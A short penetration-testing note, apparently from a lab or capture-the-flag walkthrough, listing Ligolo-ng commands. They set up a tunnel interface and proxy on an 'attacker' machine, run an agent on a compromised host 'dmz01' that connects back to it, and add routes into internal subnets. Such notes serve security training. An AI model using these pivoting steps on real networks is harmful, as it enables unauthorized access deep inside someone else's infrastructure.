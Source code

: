 - Run on attacker
```
sudo ip tuntap add user rohaki mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

- Run on dmz01 
```
./agent -connect $tun0_ip:11601 -ignore-cert
```

- Run on attacker
```
sudo ip route add 172.16.0.0/24 dev ligolo
sudo ip route add 172.18.0.0/24 dev ligolo
sudo ip route add 172.16.8.0/24 dev ligolo
```
